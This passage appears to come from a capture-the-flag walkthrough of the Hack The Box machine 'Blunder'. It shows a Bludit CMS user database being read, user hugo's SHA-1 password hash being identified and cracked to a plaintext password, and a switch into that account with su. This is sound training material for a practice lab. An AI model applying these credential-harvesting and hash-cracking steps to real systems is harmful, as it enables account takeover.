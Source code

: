 ```
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ 
```
and for username hugo
```
username: hugo
password hash : faca404fd5c0a31cf1897b823c695c85cffeb98d
```
we try to check the type of hash is SHA-1
```
╭─twseptian@twsterlab ~ 
╰─$ hash-identifier faca404fd5c0a31cf1897b823c695c85cffeb98d
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] SHA-1
[+] MySQL5 - SHA-1(SHA-1($pass))
```
i try crack this password using crackstation.net
![16](/assets/images/htb-machine-blunder/16.png)
okay, we got password for hugo and the password is Password120
```
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ su - hugo
su - hugo
Password: Password120

hugo@blunder:~$ id     
id
uid=1001(hugo) gid=1001(hugo) groups=1001(hugo)
```